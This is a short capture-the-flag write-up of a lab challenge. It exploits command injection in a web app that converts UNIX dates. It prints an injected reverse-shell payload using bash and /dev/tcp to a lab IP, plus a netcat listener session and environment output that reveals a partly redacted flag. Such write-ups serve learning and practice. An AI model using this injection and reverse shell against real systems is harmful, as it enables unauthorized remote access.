

<div style="text-align:center;">

</div>

We don't need to perform a port scan since the room description already tells us to visit the web page.

We can read from the room description that the application converts UNIX dates to the corrispondent timestamp through a Linux program. Let's try to terminate the conversion program using a `;` character and try to execute another standard Linux command like `id`.



We have command injection. Let's get a bash reverse shell and get access to the machine. The payload we'll use is

```
something; bash -c 'sh -i >& /dev/tcp/10.10.206.154/4242 0>&1'
```

Make sure to start a netcat listener before sending it.

```
$ nc -lvnp 4242

Listening on [0.0.0.0] (family 0, port 4242)
Connection from 10.10.151.232 55338 received!
sh: 0: can't access tty; job control turned off
$ 

```

We can see that we are inside a docker container.

```
$ ls -la /

total 118256
drwxr-xr-x   1 root root      4096 Mar  2  2022 .
drwxr-xr-x   1 root root      4096 Mar  2  2022 ..
-rwxr-xr-x   1 root root         0 Mar  2  2022 .dockerenv
...
```

Using the standard Linux privilege escalation cheatsheet, we print the enviroment variables

```
$ printenv

HOSTNAME=e7c1352e71ec
SHLVL=1
HOME=/home/challenge
_=/
PATH=/usr/local/go/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
PWD=/home/challenge
GOLANG_VERSION=1.15.7
FLAG=flag{7da6c7debd40bd611560c13d[redacted]}
```